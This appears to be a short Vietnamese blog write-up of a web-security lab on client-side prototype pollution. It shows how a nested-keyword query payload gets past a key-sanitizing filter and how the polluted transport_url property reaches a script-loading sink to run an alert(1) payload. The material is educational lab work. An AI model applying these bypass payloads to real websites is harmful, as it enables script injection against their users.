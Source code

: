 ```yaml
---
title: Client-side prototype pollution via flawed sanitization
date: 2023-04-19 12:13:13 +0700
categories: [WebSec]
tags: [serverside, prototype_pollution]     # TAG names should always be lowercase
---
```


## Client-side prototype pollution via flawed sanitization

1. Nhận thấy trong resource, ở searchLoggerFiltered.js có hàm `sanitizeKey()` sẽ filter các key như `__proto__`, `constructor`, `prototype`

![image](https://user-images.githubusercontent.com/80744099/231054720-4286a5f6-c8c9-4c88-8b78-2316281cccf0.png)

2. Bypass filter bằng payload 
- ```?__pro__proto__to__[testKey]=testValue```

![image](https://user-images.githubusercontent.com/80744099/231054812-7c5a2a99-da82-4363-9c2e-e310e7090e4d.png)

3. Detect sink 

```
let script = document.createElement('script');
script.src = config.transport_url;
document.body.appendChild(script);
```

4. Chèn payload ``?__pro__proto__to__[transport_url]=data:,alert(1)//``

![image](https://user-images.githubusercontent.com/80744099/231056568-4285182b-03c9-4833-b0d4-03f02839ed8e.png)
